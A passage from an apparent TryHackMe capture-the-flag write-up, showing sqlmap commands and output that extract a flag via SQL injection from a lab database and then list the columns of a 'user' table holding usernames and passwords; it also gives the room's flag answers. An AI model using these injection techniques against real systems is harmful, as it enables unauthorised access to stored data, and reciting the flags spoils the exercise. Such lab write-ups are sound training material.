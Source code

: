 ```
sqlmap -r ~/Downloads/request.txt -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:58:19 /2022-04-02/

[19:58:19] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
.....
select Easter_4 from nothing_inside: 'THM{1nj3c7_l1k3_4_b055}'
[20:07:32] [INFO] fetched data logged to text files under '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutputcu_7nz4v/10.10.207.62'

[*] ending @ 20:07:32 /2022-04-02/
```
**Answer** 
#### THM{1nj3c7_l1k3_4_b055}
---
### Easter 5
*hint*:Another sqli

Now , let's check the table **user**
```
sqlmap.py -r ~/Downloads/request.txt -D THM_f0und_m3 -T user --columns

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:07:53 /2022-04-02/

[20:07:53] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
[20:07:53] [WARNING] unable to write to the output directory '/Users/laurentnebout/.local/share/sqlmap/output' ([Errno 13] Permission denied: '/Users/laurentnebout/.local/share/sqlmap/output/QmmU'). Using temporary directory '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutputec6ov6w2' instead
........
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+

```